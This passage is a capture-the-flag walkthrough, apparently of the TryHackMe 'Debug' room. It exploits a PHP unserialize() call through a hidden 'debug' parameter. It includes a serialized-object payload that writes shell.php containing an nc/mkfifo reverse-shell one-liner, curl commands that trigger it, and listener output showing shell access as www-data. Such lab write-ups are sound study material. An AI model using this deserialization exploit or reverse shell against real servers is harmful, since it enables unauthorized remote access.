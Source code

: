 The interesting thing about this php file is that in `FormSubmit` class, the `__destruct` function is creating the file mentioned in the `$form_file` variable, with the content of the `$message` variable.

Other than that, there is a line in the code, which show that there is a hidden `debug` parameter which is passed to `unserialize` function which we can abuse.

### PHP Serialization exploit

Since PHP allows object serialization, we can pass ad-hoc serialized strings to a vulnerable `unserialize()` call, which results in an arbitrary PHP object injection. It is explained [here](https://notsosecure.com/remote-code-execution-via-php-unserialize/).

First, we need to create our PHP code:

~~~php
<?php
class FormSubmit {
    public $form_file = 'shell.php';
    public $message = '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOURIP> 4444 >/tmp/f"); ?>';
}

$mForm = new FormSubmit;
echo urlencode(serialize($mForm))
?>
~~~

Now run this php code and you'll get a serialized payload. Uplaod it using the `debug` variable of the `index.php` page:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ curl -s "http://$IP/index.php?debug=<THE PAYLOAD>"
~~~

This will create a file named `shell.php` on the server with the content we put in `$message` variable:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ curl -s "http://$IP/index.php?debug=`php shell.php`"
~~~

Now we can start a listener and then call the shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ curl -s "http://$IP/shell.php"
~~~

Now we have a shell as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Debug/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.128] from (UNKNOWN) [10.10.86.100] 32894
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
www-data@osboxes:/var/www/html$ 
~~~
